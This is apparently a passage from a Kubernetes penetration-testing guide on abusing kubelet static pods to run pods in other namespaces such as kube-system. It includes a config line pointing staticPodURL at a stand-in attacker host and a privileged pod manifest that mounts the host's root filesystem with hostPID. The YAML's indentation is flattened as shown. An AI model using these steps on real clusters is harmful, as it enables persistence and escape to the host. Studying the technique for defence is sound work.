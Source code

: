 {% hint style="danger" %}
The **`spec` of a static Pod cannot refer to other API objects** (e.g., ServiceAccount, ConfigMap, Secret, etc. So **you cannot abuse this behaviour to launch a pod with an arbitrary serviceAccount** in the current node to compromise the cluster. But you could use this to run pods in different namespaces (in case thats useful for some reason).
{% endhint %}

If you are inside the node host you can make it create a **static pod inside itself**. This is pretty useful because it might allow you to **create a pod in a different namespace** like **kube-system**.

In order to create a static pod, the [**docs are a great help**](https://kubernetes.io/docs/tasks/configure-pod-container/static-pod/). You basically need 2 things:

* Configure the param **`--pod-manifest-path=/etc/kubernetes/manifests`** in the **kubelet service**, or in the **kubelet config** ([**staticPodPath**](https://kubernetes.io/docs/reference/config-api/kubelet-config.v1beta1/#kubelet-config-k8s-io-v1beta1-KubeletConfiguration)) and restart the service
* Create the definition on the **pod definition** in **`/etc/kubernetes/manifests`**

**Another more stealth way would be to:**

* Modify the param **`staticPodURL`** from **kubelet** config file and set something like `staticPodURL: http://attacker.com:8765/pod.yaml`. This will make the kubelet process create a **static pod** getting the **configuration from the indicated URL**.

**Example** of **pod** configuration to create a privilege pod in **kube-system** taken from [**here**](https://research.nccgroup.com/2020/02/12/command-and-kubectl-talk-follow-up/):
```yaml
apiVersion: v1
kind: Pod
metadata:
name: bad-priv2
namespace: kube-system
spec:
containers:
- name: bad
hostPID: true
image: gcr.io/shmoocon-talk-hacking/brick
stdin: true
tty: true
imagePullPolicy: IfNotPresent
volumeMounts:
- mountPath: /chroot
name: host
securityContext:
privileged: true
volumes:
- name: host
hostPath:
path: /
type: Directory
```
### Delete pods + unschedulable nodes
